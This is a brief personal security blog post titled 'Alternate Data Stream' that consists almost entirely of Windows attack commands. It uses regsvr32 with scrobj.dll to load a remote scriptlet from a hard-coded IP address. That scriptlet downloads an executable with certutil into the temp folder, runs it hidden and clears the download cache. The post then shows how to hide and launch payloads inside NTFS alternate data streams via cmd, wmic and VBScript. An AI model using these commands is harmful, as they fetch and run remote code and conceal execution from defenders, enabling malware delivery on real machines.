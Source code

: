 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-09-30T19:31:07+08:00
title: Alternate Data Stream
---
```


<!--more-->

Updated on 2019-09-30

```bash
regsvr32.exe /s /u /i:http://47.98.135.65/main/main.xml scrobj.dll
```

```bash
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:http://47.98.135.65/main/main.xml ^scrobj.dll > ...:payload.bat

cmd.exe - < ...:payload.bat
```

## main.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<scriptlet>
<registration classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="VBScript">
    <![CDATA[
        CreateObject("WScript.Shell").Run _
            "%ComSpec% /c cd /d %TEMP% && " &_
            "(IF NOT EXIST main.exe certutil.exe -urlcache -split -f http://47.98.135.65/main/main.exe) && " &_
            "certutil.exe -urlcache * delete & " &_
            "main.exe r", 0, false
    ]]>
</script>
</registration>
</scriptlet>
```

## delete.bat
```bash
del /f /a /q \\?\%1
rd /s /q \\?\%1
```

---

```bash
type cmd.exe > ...:cmd.exe
wmic process call create D:\Download\...:cmd.exe
```

```bash
echo winver > ...:run.txt
cmd.exe - < ...:run.txt
or
echo WScript.CreateObject("WScript.Shell").Run "cmd /c for /f ""delims=,"" %i in (...:run.txt) do %i", 0 > ...:run.vbs
cscript ...:run.vbs
```

## Reference
* https://ss64.com/vb/shell.html
* https://attack.mitre.org/techniques/T1117/
* https://docs.microsoft.com/zh-cn/dotnet/visual-basic/programming-guide/program-structure/how-to-break-and-combine-statements-in-code
